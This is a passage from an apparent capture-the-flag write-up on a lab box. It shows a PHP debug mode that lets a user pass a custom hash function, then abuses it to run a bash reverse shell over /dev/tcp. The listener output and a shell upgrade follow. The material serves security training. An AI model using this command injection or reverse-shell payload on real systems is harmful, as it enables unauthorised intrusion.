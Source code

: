 ```
 56                     echo "Result for Hash-function (" . $_REQUEST['hash_function'] . ") and password (" . $_REQUEST['password'] . "):<br>";
 57                     echo '<br>' . $hash;
 58                     return;
 59                 }
 60                 else
 61                 {
 62                     $_SESSION['hash'] = $hash;
 63                     header('Location: /home.php?tool=hashing');
 64                     return;
 65                 }
 66             }
 67         }

```

In both cases, the developer was nice enough to leave a debug mode which allows the user to pass custom hash functions.

### RCE

I’ll try this in repeater and it works:

[![image-20210818164531285](https://0xdfimages.gitlab.io/img/image-20210818164531285.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210818164531285.png)

I’ll change `password` to get a reverse shell:

```

action=hash&password=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&hash_function=system&debug=1

```

On sending, a shell comes back:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 49100
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll use `script` to get a better terminal:

```

www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ script /dev/null -c bash
<rlyaccess.htb/dev/actions$ script /dev/null -c bash      
Script started, file is /dev/null
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ 

```
